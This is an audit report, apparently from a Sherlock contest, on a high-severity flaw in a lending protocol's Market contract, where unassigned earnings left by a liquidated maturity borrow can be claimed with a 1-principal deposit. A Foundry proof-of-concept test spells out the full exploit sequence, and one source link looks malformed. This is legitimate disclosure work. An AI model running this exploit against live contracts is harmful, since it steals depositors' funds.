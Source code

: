 Warm Cinnabar Lion

high

# Unassigned pool earnings can be stolen when a maturity borrow is liquidated by depositing at maturity with 1 principal

## Summary

When a borrowed maturity is liquidated, `canDiscount` in `Market::noTransferRepayAtMaturity()` is `false`, which ignores the unassigned earnings. Thus, an attacker may borrow and deposit at maturity with a principal of 1 and get all these unassigned rewards.

## Vulnerability Detail

On `Market::liquidate()`, borrowed maturities will be liquidated first by calling `Market::noTransferRepayAtMaturity()`, passing in the `canDiscount` variable as `false`, so unassigned earnings in the pool will not be converted to `earningsAccumulator` and subtracted to `actualRepayAssets`. Following the liquidation, these unassigned earnings will be converted over time to `floatingAssets`, in `pool.accrueEarnings(maturity);` on deposit, borrow and repay maturities. Or, in case `floatingBackupBorrowed > 0`, the next user to deposit a maturity will partially or fully claim the fee, depending on how much deposit they supply. In case `floatingBackupBorrowed == 0`, and `supply` is 0, the user may borrow at maturity 1 principal and then deposit at maturity 1 principal, claiming the full fee. If `supply` is not 0, the user would have to borrow at maturity until the borrow amount becomes bigger than the supply, which would be less profitable (depending on the required borrowed), but still exploitable.

The following POC added to test `Market.t.sol` shows how an attacker can claim a liquidated borrowed maturity fee with just 1 principal of deposit.
```solidity
function test_POC_stolenBorrowedMaturityEarnings() public {
  uint256 maturity = FixedLib.INTERVAL;
  uint256 assets = 10_000 ether;
  ERC20 asset = market.asset();
  deal(address(asset), ALICE, assets);

  vm.startPrank(ALICE);

  // ALICE deposits
  market.deposit(assets, ALICE);

  // ALICE borrows at maturity, using backup from the deposit
  market.borrowAtMaturity(maturity, assets/10, type(uint256).max, ALICE, ALICE);

  // ALICE borrows the maximum possible using floating rate
  (uint256 collateral, uint256 debt) = auditor.accountLiquidity(address(ALICE), Market(address(0)), 0);
  uint256 borrow = (collateral - debt)*8/10; // max borrow capacity
  market.borrow(borrow, ALICE, ALICE);

  vm.stopPrank();

  skip(1 days);

  // LIQUIDATOR liquidates ALICE, wiping ALICE'S maturity borrow
  // and ignores its unassigned rewards
  address liquidator = makeAddr("liquidator");
  vm.startPrank(liquidator);
  deal(address(asset), liquidator, assets);
  asset.approve(address(market), assets);
  market.liquidate(ALICE, type(uint256).max, market);
  vm.stopPrank();

  // ATTACKER deposits to borrow at maturity
  address attacker = makeAddr("attacker");
  deal(address(asset), attacker, 20);
  vm.startPrank(attacker);
  asset.approve(address(market), 20);
  market.deposit(10, attacker);

  // ATTACKER borrows at maturity, making floatingBackupBorrowed = 1 > supply = 0
  market.borrowAtMaturity(maturity, 1, type(uint256).max, attacker, attacker);

  // ATTACKER deposits just 1 at maturity, claiming all the unassigned earnings
  // by only providing 1 principal
  uint256 positionAssets = market.depositAtMaturity(maturity, 1, 0, attacker);
  assertEq(positionAssets, 6657534246575341801);
}
```

## Impact

Attacker steals the unassigned earnings from the liquidation of a borrowed maturity with 1 principal.

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L244
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L293
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L375
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L478
https://github.com/sherlock-aaccrueudit/2024-04-interest-rate-model-0x73696d616f/blob/main/protocol/contracts/Market.sol#L508
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L565
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/utils/FixedLib.sol#L84

## Tool used

Manual Review

Vscode

Foundry

## Recommendation

Instead of ignoring unassigned earnings on liquidations, convert them to `earningsAccumulator`, which should not be able to be gamed as it goes through an over time accumulator.